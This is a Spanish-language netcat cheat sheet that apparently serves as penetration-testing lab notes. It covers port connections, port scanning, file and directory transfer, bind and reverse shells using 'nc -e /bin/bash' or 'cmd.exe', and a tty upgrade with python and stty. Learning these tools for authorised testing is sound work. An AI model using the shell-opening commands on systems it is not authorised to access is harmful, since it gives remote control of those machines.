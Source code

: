 ### Descargar Netcat
	https://eternallybored.org/misc/netcat/

### Conexion a puertos
	Servidor
	nc -lvp 1000
	
	Cliente
	nc 127.0.0.1 1000

### Conectar con DNS de google 
	nc -v -u 8.8.8.8 53

### Conectar a una Web
	nc -v plaintext.do 80
	GET / HTTP/1.1
	
### Escaneo de puertos 
	nc -z -vv plaintext.do 78-81
	nc -z -vv 185.199.109.153 78-81
	nc -z -vvn 185.199.109.153 78-81 | evitar inverse host lookup
	
### Transferencia de archivos
	Para Recibir 
	nc -lvnp 1000 > file.txt
	
	Para Enviar
	nc ipreceptor 1000 < file.txt 
	
	Usar md5sum para confirmar que el archivo transferido es identico al recibido
	md5sum file.txt 
	
### Transferencia de grupo de archivos y directorios 
	Para recibir 
	nc -lvnp 1000 | tar -xvf -
	
	Para enviar
	tar -cvf - directorio/ | nc 127.0.0.1 1000

### BindShell
	Servidor
	nc -lvnp 2000 -e /bin/bash (linux)
	nc -lvnp 2000 -e cmd.exe (windows)
	
	Cliente 
	nc 192.168.249.128 2000
	
### Reverse shell
	Servidor 
	nc 192.168.249.128 2000 -e /bin/bash (linux)
	nc 192.168.249.128 2000 -e cmd.exe (windows)
	
	Cliente 
	nc -lvnp 2000
	
	
### python tty 
	python -c "import tty;tty.spawn('/bin/bash')"
	CTRL + Z
	stty raw -echo
	fg
	ENTER

## rlwrap 
rlwrap - https://twitter.com/4lex/status/1099803151832633350

### Instalar rlwrap
	apt-get install rlwrap
	
#### Permite utilizar:
	Teclas de subir y bajar, para el historial de comandos.
	ctrl + L - (limpiar pantalla) 
	Tab auto completar (linux)
	
	rlwrap -c nc -lvnp 2000
	rlwrap -c nc 192.168.249.1 4444 -e /bin/bash 
